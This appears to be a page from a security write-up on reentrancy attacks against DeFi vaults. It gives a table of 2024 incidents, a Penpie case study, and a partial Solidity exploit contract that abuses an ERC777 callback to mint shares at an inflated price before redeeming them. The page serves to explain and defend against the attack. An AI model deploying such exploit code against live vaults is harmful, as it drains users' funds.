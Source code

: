 ## Real-World Attacks and Impact

### 2024 Vault Attacks Timeline

| Date | Protocol | Attack Type | Loss |
|------|----------|------------|------|
| July 14, 2024 | Minterest | Read-only reentrancy | $1.4M |
| July 31, 2024 | Terra | Cross-function reentrancy | $3.2M |
| Aug 23, 2024 | Lien | Inflation attack | $2.8M |
| Sept 3, 2024 | Pythia | View function manipulation | $1.1M |
| Sept 3, 2024 | Penpie | Cross-vault reentrancy | $27M |

**Total 2024 Losses**: Over $35M from vault reentrancy exploits

### Case Study: Penpie Hack (September 2024)

The Penpie hack demonstrated sophisticated cross-vault reentrancy:

1. **Initial State**: Multiple vaults sharing price oracles
2. **Attack Vector**: 
   - Attacker initiated deposit in Vault A
   - During token transfer, callback executed
   - Callback queried Vault B's share price (stale state)
   - Manipulated price used to mint excess shares
3. **Impact**: $27M drained across multiple vaults
4. **Root Cause**: Vaults relied on each other's view functions during state transitions

## Attack Vectors and Code Examples

### Vector 1: Exploiting totalAssets() During Deposit

```solidity
// ATTACK CONTRACT
contract ReentrancyExploit {
    Vault public vault;
    MockToken public token;
    uint256 public stage;
    
    function attack() external {
        stage = 1;
        
        // Approve vault to spend tokens
        token.approve(address(vault), type(uint256).max);
        
        // Initial deposit triggers callback
        vault.deposit(1000e18, address(this));
        
        // After reentrancy, withdraw profits
        vault.redeem(vault.balanceOf(address(this)), address(this), address(this));
    }
    
    // ERC777 callback
    function tokensToSend(address, address, address, uint256, bytes calldata, bytes calldata) external {
        if (stage == 1) {
            stage = 2;
            
            // totalAssets() increased but totalSupply() hasn't
            // Share price temporarily inflated
            uint256 inflatedPrice = vault.totalAssets() * 1e18 / vault.totalSupply();
```